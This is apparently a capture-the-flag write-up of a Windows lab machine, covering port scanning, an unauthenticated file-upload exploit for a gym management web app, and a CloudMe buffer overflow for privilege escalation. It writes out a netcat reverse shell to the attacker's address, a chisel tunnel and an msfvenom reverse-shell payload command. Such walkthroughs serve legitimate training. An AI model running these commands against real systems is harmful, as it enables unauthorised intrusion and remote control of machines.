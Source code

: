 **Nmap Scan:**
```
# Nmap 7.92 scan initiated Wed Jan  4 22:55:01 2023 as: nmap -sC -sV -p- -vv -oA full 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received echo-reply ttl 127 (0.073s latency).
Scanned at 2023-01-04 22:55:02 EST for 207s
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  4 22:58:29 2023 -- 1 IP address (1 host up) scanned in 208.15 seconds

```

There is a website on port 8080, so I started going thorugh it and meantime I ran a gobuster scan:
```
gobuster dir --url http://10.10.10.198:8080/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x .txt,.php,.html 
```
On the website ```Contact``` Tab I saw this:
![](images/buff/Pasted image 20230107213809.png)

I searched online and found an exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48506):

**Vulnerability Description**
Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.

**Initial shell Proof**
![](images/buff/Pasted image 20230107214338.png)

Since it is a web shell I was limited and couldn't move from the current directory I was in, so I moved ```nc.exe``` to the target machine, and created a reverse shell.
```
Kali Machine:
smbserver.py kali .
nc -nlvp 443

Target Machine:
copy \\10.10.14.2\kali\nc.exe
.\nc.exe 10.10.14.2 443 -e powershell.exe
```

---
# Privilege Escalation

First, I enumerated the machine manually, and while grabbing the ```user.txt``` flag I saw this:
![](images/buff/Pasted image 20230107214936.png)
```CloudMe_1112``` looked like something worth checking, and I found online a BOF (Buffer OverFlow) exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48389)

I checked the ```netstat``` to see if it was really listening to this ```CloudMe``` service, and it was listening to two ports:
```
netstat -ano

TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       7088
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2820
```
**3306:** MySQL Service, which made sense since it was using the PHP site.
**8888:** The port that was associated with ```CloudMe``` service.

To verify it, I grabbed the process ID and found it on the tasklist:
```
tasklist /v | findstr 2820
CloudMe.exe                   2820                            0     37,444 K Unknown 
```

To use this exploit, I needed a tunnel from my Kali to the target machine.
I used [chisel](https://github.com/jpillora/chisel) for this, and this is how I used it:
```
Kali Machine:
One tab:
smbserver.py kali .
Second tab:
./chisel_1.7.7_linux_amd64 server -p 8000 -reverse

Target Machine:
copy \\10.10.14.2\kali\chisel_1.7.7_windows_amd64
.\chisel.exe client 10.10.14.2:8000 R:8888:127.0.0.1:8888
```

Now, to run the exploit I had to do a few modification:

**Generate a payload:**
```
Original Payload: msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python


Modified Payload:
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -b '\x00\x0A\x0D' -f python -v payload


-v flag was used to set the output payload variable name
I replaced the original payload with the modified one, listened to port 1234 on another tab and ran the exploit.
```

And it worked:
![](images/buff/Pasted image 20230107220850.png)
